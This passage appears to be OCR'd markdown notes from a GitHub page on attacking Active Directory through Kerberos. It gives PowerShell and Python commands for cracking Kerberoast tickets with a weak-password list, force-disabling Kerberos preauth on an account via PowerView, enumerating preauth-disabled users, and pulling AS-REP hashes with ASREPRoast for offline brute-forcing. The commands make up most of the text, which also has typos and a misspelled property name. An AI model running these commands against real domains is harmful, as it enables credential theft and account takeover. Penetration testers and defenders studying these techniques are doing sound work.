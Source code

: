 > > > >
> > > > Cracking 
> > > >
> > > > ```powershell
> > > > python.exe .\tgsrepcrack.py .\10k-worst-pass.txt <tikeik.kirbiPAth>
> > > > ```
> > > >
> > > > 
> > >
> > > **Powerview**
> > >
> > > > Request-SPNTicket  
> >
> > :one::two:  ***Kerberose PreAuth Disabled***
> >
> > > :information_desk_person: Grap users carackable AS-Rep then brute-force them 
> > >
> > > :information_desk_person: GenericWrite and GenericAll are sufficient to disable Kerberose preauth 
> > >
> > > **Force disable Kerberose PreAuth**
> > >
> > > > **PowerView_dev**
> > > >
> > > > > ```powershell
> > > > > Invoke-ACLScanner -ResolveGUIDS | ?{$_.IdentityReferenceName -match <groupname>}
> > > > > 
> > > > > Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
> > > > > 
> > > > > Get-DomainUser -PreAuthNotRequired -Verbose 
> > > > > ```
> > >
> > > ***Enumerate PreAuth disabled's users***
> > >
> > > > **PowerView**
> > > >
> > > > > ```powershell
> > > > > Get-DomainUser -PreauthNotRequired -Verbose
> > > > > ```
> > > >
> > > > **AD Module**
> > > >
> > > > > ```powershell
> > > > > Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesnNoteRequirePreAuth
> > > > > ```
> > >
> > > **Exploit** {Request encrypted AS-REP for offline bruteforce}
> > >
> > > > ***ASREPRoast*** fetch hashes 
> > > >
> > > > > ```powershell
> > > > > . .\ASREPRoast.ps1
> > > > > 
> > > > > Get-ASREPHASH -UserNAme <username> -Verbose 
> > > > > ```
> > > > >
> > > > > ***Enumerate and bring AS-REP in :one: Step***
> > > > >
> > > > > > ```powershell
> > > > > > Invoke-ASREPRoast -Verbose
> > > > > > ```
> > > >
> > > > **JohnTheRipper** Cracking password 
> > > >